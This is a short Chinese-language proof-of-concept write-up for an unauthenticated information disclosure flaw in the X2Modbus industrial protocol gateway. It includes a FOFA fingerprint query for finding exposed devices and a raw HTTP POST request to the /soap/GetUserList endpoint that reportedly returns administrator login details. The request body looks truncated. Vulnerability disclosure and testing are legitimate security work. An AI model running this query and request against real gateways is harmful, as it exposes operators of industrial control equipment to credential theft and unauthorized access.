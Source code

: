 # 上海迅饶自动化科技有限公司X2Modbus网关GetUserList存在敏感信息泄露

# 一、漏洞简介
X2Modbus是上海迅饶自动化科技有限公司开发的一款功能很强大的协议转换网关， 这里的X代表各家不同的通信协议， 2是To的谐音表示转换， Modbus就是最终支持的标准协议是Modbus协议。用户可以根据现场设备的通信协议进行配置，转成标准的Modbus协议。在PC端仿真运行无误后，上传到硬件协议转换网关。X2Modbus网关GetUserList接口存在一个信息泄漏漏洞，使得未经授权的用户或攻击者可以获取管理员登录信息。

# 二、影响版本
+ X2Modbus

# 三、资产测绘
+ fofa`server="SunFull-Webs" || icon_hash="-1384370370"`
+ 特征

![1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936.png](./img/5pAm6LDi9QkvfYif/1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936-178259.png)

# 四、漏洞复现
```java
POST /soap/GetUserList HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

CmpWc=
```

![1712507467332-2db34223-b5c6-42d5-bd22-5afb39b57c72.png](./img/5pAm6LDi9QkvfYif/1712507467332-2db34223-b5c6-42d5-bd22-5afb39b57c72-368876.png)



> 更新: 2024-04-16 16:50:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/twhz9rc6wex3xe15>